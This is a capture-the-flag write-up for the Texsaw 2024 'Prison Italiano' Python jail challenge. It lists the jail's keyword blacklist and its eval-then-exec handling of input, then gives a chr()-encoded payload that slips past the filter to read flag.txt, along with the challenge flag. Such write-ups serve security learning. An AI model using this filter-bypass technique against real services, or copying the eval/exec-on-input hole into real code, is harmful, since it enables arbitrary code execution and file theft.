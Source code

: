 ```yaml
---
title: Prison Italiano~
author: nightxade
layout: writeup
category: Texsaw-CTF-2024
chall_description:
points: 200
solves: -1
tags: misc pyjail
date: 2024-3-25
comments: false
---
```


You've been locked in the worst prison imaginable: one without any meatballs! To escape the prison, you must read the flag using Python!  

`nc 3.23.56.243 9011`  

---

After playing around with it a bit, and getting various errors, here's what I got:  

```
blacklist: import, dir, print, open, ', ", os, sys, _, eval, exec, =, [, ]

prohibited actions:
    function calls without parameters, i.e. '()'

code fragments:
    inp = eval(inp)
    inp = inp.replace("print", "stdout.write")
    out = exec(inp)
```

The code fragments are the most important here. Notably, the input is evaluated first before it is executed... let's test if a function like chr() works.  

Turns out, it does! That means we can just write every character as a chr(some number), which will allows us to print the file. Here's a little script that helps us write our payload:  

```py
payload = 'print(open("flag.txt","r").read())'
for i in payload:
    print(f'chr({ord(i)})+', end='')
```

And here's our final payload:  

```
chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(34)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(34)+chr(44)+chr(34)+chr(114)+chr(34)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)+chr(41)
```

    texsaw{SP4P3GGY_4ND_M34TBA11S_aa17c6d30ee3942d}